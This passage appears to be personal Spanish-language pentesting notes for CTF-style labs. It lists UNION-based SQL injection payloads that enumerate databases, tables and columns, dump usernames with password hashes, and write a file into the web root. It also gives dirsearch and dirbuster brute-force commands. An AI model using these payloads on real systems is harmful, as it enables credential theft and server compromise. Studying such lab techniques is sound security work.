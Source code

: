 Para ***enumerar la base de datos*** que se esta usando en ese momento

```
username=masa&country=Albania' union select database();-- -
```

Para ***enumerar tablas*** dentro de la base de datos

```
username=masa&country=Albania' union select table_name from information_schema.tables where table_schema='registration';-- -
```
Para ***enumerar nombres de las columnas***

```
username=masa&country=Albania' union select column_name from information_schema.columns where table_schema='registration';-- -
```

Para ***mostrar*** de una manera los datos que te importan

```
username=masa&country=Albania' union select group_concat(username,0x3a,userhash) from registration;-- -

0x3a son los dos puntos
```

Para ***escribir un archivo***( si es que tienens priv no olvides las comillas si no jala)

```
username=masa&country=Albania' union select "probando" into outfile "/var/www/html/probando.txt";-- -
```

Siempre prueba si tiene permisos de ejecucion de comandos asi como de escribir archivos.

## Dirsearch

Me parece una alternativa que tienes que utilizar ya que el dirbuster esta bien pero el problema es que aveces por ser tan potente no logra detectar cosas porque tira las paginas. Utiliza esta herramienta quiza antes de WFUZZ.

```
dirsearch -u https://bizness.htb
```

## Dirbuster

Esta herramienta es muy potente pero el problema es que por eso mismo puede tirar paginas.

```
dirbuster -u http://10.129.95.235/ -t 200 -l /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r dirout.ext -e asp,aspx

```

## WFUZZ
